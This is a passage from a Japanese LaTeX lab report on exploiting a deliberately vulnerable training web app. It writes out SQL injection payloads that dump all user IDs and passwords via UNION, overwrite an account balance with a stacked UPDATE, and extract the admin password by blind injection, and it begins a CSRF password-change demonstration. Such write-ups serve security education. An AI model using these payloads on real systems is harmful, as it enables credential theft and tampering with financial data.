    
\includegraphics[keepaspectratio,scale=0.3]{sql6.png}
    \end{center}
    \caption{通常画面}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{sql7.png}
    \end{center}
    \caption{実行結果}
  \end{minipage}
\end{figure}


\subsection{他テーブル情報の漏えい(数値リテラル)}
データベースを利用するウェブアプリケーションにSQLインジェクションの脆弱性が存在するとき、SQLのUNION句が利用されることによって、他テーブルの情報であっても漏えいする可能性があることを確認する。
このバンキングサイトには、入出金履歴閲覧ページの入出金履歴表示後のURLにあるaccount\_idに脆弱性があることが分かった。ログインしているアカウントであるsatoさん以外のIDとパスワードを表示させるために、UNION句を用い、userテーブルを問い合わせた結果を結合する。
このとき、入出金履歴に表示するデータと、結合するデータの列数と型が同じなるように注意した。
作成したURLは、「\url{http://appgoat.cysec-lab.org/Users/is0550kr/Web/Scenario1223/VulSoft/bank.php?page=4&account_id=99 UNION SELECT NULL,id,password,0,0,0 FROM user}」
である。これをアドレスから送信した結果、下の図24のように、全てのユーザのIDとパスワードを表示することができた。

\begin{figure}[H]
  \centering
  
\includegraphics[scale=0.32]{sql8.png} 
  \caption{実行結果}\label{fig:図24}
\end{figure}

\subsection{データベースの改ざん(数値リテラル)}
データベースを利用するウェブアプリケーションにSQLインジェクションの脆弱性が存在するとき、データベースに蓄積された情報を改ざんされる可能性があることを確認する。
SQL文をセミコロン「;」で区切って複数記述する形式のことを複文といい、これを用いることで1度に複数のSQL文を実行することができる。\\\\

今回、バンキングサイトの振込処理ページの振込先口座欄に脆弱性が見つけられたので、そこに複文を用いて口座残高を書き換えるSQL文を入力した。
下の図25のように「2000002; UPDATE account SET balance = 10000000 WHERE account\_id =1000006」を振込先口座欄に入力すると、まず2000002に入力した金額が振り込まれ、次に「;」後のSQL文が実行されることによって、図26のように、口座番号1000006の残高が10000000円に上書きされた。\\

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{sql9.png}
    \end{center}
    \caption{通常画面}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{sql10.png}
    \end{center}
    \caption{実行結果}
  \end{minipage}
\end{figure}
 
\subsection{ブラインドSQLインジェクション}
該当するデータの存在有無の確認などにSQL文が利用されることもある。このような、実行結果を画面へ出力しないSQL文において、SQLインジェクションの脆弱性があることを、ブラインドSQLインジェクションの脆弱性と呼ぶ。\\\\
今回、通販サイトの新規登録画面のID欄に脆弱性が見つけれたので、これを利用して管理者アカウントadminのパスワードを特定する。実際にID欄に入力するのは「sato' AND SUBSTR((SELECT password FROM user WHERE id = 'admin'),1,1) = 'a'--」のような文字列である。
この文のSUBSTR以降は、ID=1のユーザのパスワードの先頭(1文字目)から数えて1文字分を取り出して、それがaであるかどうかを判定している。下の図27は、判定がTRUEになり「既に使われているIDです。」というメッセージが表示された画面である。このとき、その桁のパスワードが明らかになったといえる。また、パスワードが一致しない場合、判定がFALSEとなり、下の図28のように「使用可能なIDです。」という文字列が表示される。
これを全ての桁で行うことで、IDがadminであるユーザのパスワードが「bda」であることが分かった。

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{sql11.png}
    \end{center}
    \caption{パスワードが一致}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{sql12.png}
    \end{center}
    \caption{パスワードが不一致}
  \end{minipage}
\end{figure}
 \\
上記で得られたパスワードを使用することで、管理者としてログインすることに成功した。

\begin{figure}[H]
  \centering
  
\includegraphics[scale=0.35]{sql13.png} 
  \caption{実行結果}\label{fig:図29}
\end{figure}

 

\section{CSRF クロスサイト・リクエスト・フォージェリ}
\subsection{脆弱性の概要および発見}
\subsubsection{クロスサイト・リクエスト・フォージェリとは}
クロスサイト・リクエスト・フォージェリとは、ウェブサイトにログインしたユーザが、攻撃者によってあらかじめ用意された罠により、意図しないリクエストを実行させられてしまう脆弱性である。
実際に、ログインしたユーザのみが利用可能なサービスを悪用される、編集可能な情報を改ざんされるといった被害がある。\\

\subsubsection{脆弱性の発見}
このウェブサイトは、パスワードを変更する際に、現在のパスワードが要求されないことが確認できた。また、htmlソースコードを
表示したところ、このページはhidden属性でトークンを持っていないことが確認できた。ソースコードのformのactionの値を、絶対パスである「\url{http://appgoat.cysec-lab.org/Users/is0550kr/Web/Scenario1311/VulSoft/login.php?page=5}」
に書き換え、ブラウザで表示した。\\
このときの画面をキャプチャしたものが、下の図30である。この画面からパスワードの変更を試みたところ、下の図31のように、正規の変更画面を介さずに、パスワードを変更することに成功した。\\

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    \fbox{
\includegraphics[keepaspectratio,scale=0.45]{cs1.png}}
    \end{center}
    \caption{パスワードが一致}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
